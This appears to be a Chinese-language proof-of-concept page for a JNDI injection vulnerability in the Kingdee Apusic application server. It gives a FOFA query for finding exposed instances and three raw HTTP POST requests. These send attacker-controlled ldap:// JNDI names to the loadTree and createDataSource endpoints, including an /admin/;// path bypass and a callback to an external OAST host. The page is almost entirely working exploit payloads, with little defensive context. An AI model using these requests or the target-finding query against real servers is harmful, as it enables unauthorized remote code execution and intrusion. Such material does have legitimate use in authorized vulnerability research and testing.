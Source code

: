 ## 金蝶Apusic应用服务器loadTree JNDI注入漏洞

## fofa
```
app="Apusic应用服务器"
```

## poc
```
POST /appmonitor/protect/jndi/loadTree HTTP/1.1
host:127.0.0.1

jndiName==ldap://地址



POST /admin/;//protect/jndi/loadTree HTTP/1.1
host:127.0.0.1

jndiName==ldap://地址



POST /admin/;//protect/datasource/createDataSource HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36
Content-Length: 260
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Type: application/x-www-form-urlencoded

name=nobg7&jndiName=ldap://cm38sdn1l3f79d1jb0jgoahe856jrdjkg.oast.site/ahsdhashduqwe&dbtype=mysql&drivertype=&host=127.0.0.1&port=3306&dbname=nobg7&userName=nobg7&password=nobg7&repassword=nobg7&connectionURL=sdasd&driverClassName=java.lang.String&testCommand=
```

![a519acd405e2e60c00108378f8410c8d](../../images/faa32ae9-f7b0-4a76-9990-74635d28bd2f.png)

![1dc3f827f335c01618f9dd9c4b39832b](../../images/6eff9f3b-df75-4008-b713-db61a32739bd.png)

![584c726b09f954433d5c3248ac5c1368](../../images/dfe99f4f-d6eb-4869-a2f8-59d792d9dac4.png)

![02678af9ca19b8ee1104c874943e5f94](../../images/09aba93a-9c71-4924-9314-28f054ce2fd7.png)


##漏洞来源
- https://mp.weixin.qq.com/s/iEHmFOKq5LT2x9Hp1ysLIw
